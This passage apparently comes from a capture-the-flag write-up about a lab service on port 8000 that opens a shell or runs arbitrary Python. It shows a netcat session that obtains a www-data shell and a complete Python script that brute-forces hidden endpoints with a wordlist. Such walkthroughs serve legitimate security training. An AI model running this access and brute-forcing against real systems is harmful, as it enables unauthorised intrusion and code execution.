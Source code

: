 According to the code above, if an unknown endpoint is provided in ``data``, it performs an action on ``get_this_endpoint``. 
If ``shell`` is provided, it simply opens a shell; otherwise, it executes the given Python code:

```bash
┌──(root㉿kali)-[~]
└─# nc 10.10.43.86 8000
shell
$ whoami
whoami
www-data
^C
                                                                                                                                 
┌──(root㉿kali)-[~]
└─# nc 10.10.43.86 8000
print(1+1)
2
```

Now things get a bit trickier... we need to try guessing the endpoint.
After observing that sending unkown data to the endpoint gives `X is not defined` or empty response we'll code and use the following Python script to brute-force and find something different returned on the response.

```python title="find_endpoint.py"
#!/usr/bin/env python3

import socket
import time
import sys

def create_socket_connection(host, port):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((host, port))
        return sock
    except socket.error as e:
        print(f"Error creating socket connection: {e}")
        return None

def brute_force(sock, wordlist):
	for word in wordlist:
		print("Trying " + word + "...")
		sock.send(word.encode())
		data = sock.recv(512).decode("utf-8")
		if len(data.strip()) > 0 and not "is not defined" in data:
			print("==========> FOUND! -> " + word)
		
		sock.close()
		time.sleep(1)
		sock = create_socket_connection(host, port)
	
if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Usage: python find_endpoint.py <HOST> <PORT> <WORDLIST_PATH>")
        sys.exit(1)
    
    host = sys.argv[1]
    port = int(sys.argv[2])
    wordlist_path = sys.argv[3]
    
    wordlist = open(wordlist_path, 'r').read().splitlines()
    sock = create_socket_connection(host, port)
    brute_force(sock, wordlist)
```
